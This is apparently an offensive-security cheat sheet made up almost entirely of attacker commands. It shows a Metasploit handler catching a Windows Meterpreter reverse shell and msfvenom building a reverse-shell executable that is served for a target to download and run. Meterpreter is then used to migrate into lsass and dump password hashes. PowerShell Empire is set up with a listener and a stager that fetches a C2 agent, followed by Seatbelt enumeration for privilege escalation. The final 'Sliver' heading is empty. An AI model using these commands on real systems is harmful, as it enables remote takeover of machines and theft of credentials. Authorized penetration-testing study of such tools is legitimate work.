 # Execution

## Metasploit, MSFVenom, and Meterpreter
**Metasploit**
```bash
# attacker: terminal 1
sudo msfconsole 
use exploit/multi/handler
set LHOST 192.168.1.23
set LPORT 443
set PAYLOAD windows/meterpreter/reverse_tcp
options # check your exploit settings
run
```

**MSFVenom**
```bash
# attacker: terminal 2
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=443 -f exe -o rshell.exe
sudo python3 -m http.server 8000
# get the target to download and execute the payload
```

**Meterpreter**
Change exploits from Meterpreter to `post/windows/gather/hashdump`. 
```bash
# attacker: terminal 1 (after a shell has been opened)
background                       # put session into the background 
sessions                         # confirm session number
use post/windows/gather/hashdump # change exploits
set SESSION 1                    # specify the session to use
options                          # check your exploit settings
run                              # dumps password hints and hashes
sessions -k 1                    # kill the session 
```

If there was an error about needing a SYSTEM user context, run the commands below. 
```bash
sessions -i 1                    # interact with session 1
ps                               # list processes (look for lsass, explorer, etc.)
migrate 666                      # migrate to lsass process (PID 666)
background                       # try and run the 'hashdump' exploit above again
```

## Empire, Python, and Seatbelt
Start Empire. 
```bash
# attacker Terminal 1:
cd empire/
sudo ./ps-empire server
```
```bash
# attacker Terminal 2:
cd Empire/
sudo ./ps-empire client
```

Configure and start a listener. 
```bash
# attacker Terminal 2:
uselistener http
set Name handler_http 
set Port 4444
set Host 192.168.1.23
set defaultdelay 1 # seconds between agent check-in
execute            # to modify a listener, disable it and run "editlistener" (regenerate your stager too)
```

Configure and create a stager (upon execution, the stager will download and start a C2 agent). 
```bash
# attacker Terminal 2:
usestager windows/launcher_bat
set Listener handler_http
execute # the stager will be written to empire/client/generated-stagers/
```

Host the stager so it can be downloaded by the target. 
```bash
# attacker Terminal 3:
cd empire/client/generated-stagers/
sudo python3 -m http.server 9001
# get the target to download and execute the stager (launcher.bat)
```

Pick and run a PowerShell Empire module. 
```bash
# attacker Terminal 2:
agents
interact WOW12345
usemodule powershell/situational_awareness/host/seatbelt
set Agent WOW12345
set Command -group=user # enum more info about the current user for privesc
execute 
# wait and then review the results printed to the screen
```

## Sliver
